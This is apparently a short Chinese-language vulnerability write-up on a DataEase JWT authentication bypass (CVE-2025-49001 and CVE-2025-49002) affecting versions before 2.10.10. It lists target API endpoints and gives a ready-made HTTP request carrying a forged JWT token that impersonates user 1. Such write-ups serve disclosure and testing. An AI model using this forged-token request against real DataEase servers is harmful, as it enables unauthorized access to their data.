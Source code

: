 **漏洞介绍**



![图片](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640.webp)

DataEase是DataEase开源的一个开源的数据可视化分析工具。用于帮助用户快速分析数据并洞察业务趋势，从而实现业务的改进与优化。

DataEase 2.10.10之前版本存在授权问题漏洞，该漏洞源于密钥验证未成功生效，可能导致用户使用任意密钥伪造JWT令牌。

DataEase 2.10.10之前版本存在安全漏洞，该漏洞源于INIT和RUNSCRIPT禁止但可通过大小写不敏感绕过补丁。



![Image](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-1.webp)



**0x02影响版本**



DataEase < 2.10.10



CVE-2025-49001

![图片](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-2.webp)

CVE-2025-49002

![图片](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-3.webp)



![Image](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-1.webp)



**0x03漏洞复现**



1.访问漏洞环境

![图片](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-4.webp)

2.对漏洞进行复现

 **POC** 

漏洞复现

接口地址

- 
- 
- 

```
/de2api/license/version
/de2api/user/info
/de2api/login/refresh
```

请求

```
GET /de2api/user/info HTTP/1.1
Host: 127.0.0.1
Accept: application/json, text/plain, */*
out_auth_platform: default
X-DE-TOKEN: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1aWQiOjEsIm9pZCI6MX0.a5QYOfZDYlhAy-zUMYzKBBvCUs1ogZhjwKV5SBTECt8


```

​    通过响应判断漏洞存在

![图片](Dataease%20JWT%E8%AE%A4%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9ECVE-2025-49001&CVE-2025-49002.assets/640-1749605040662-5.webp)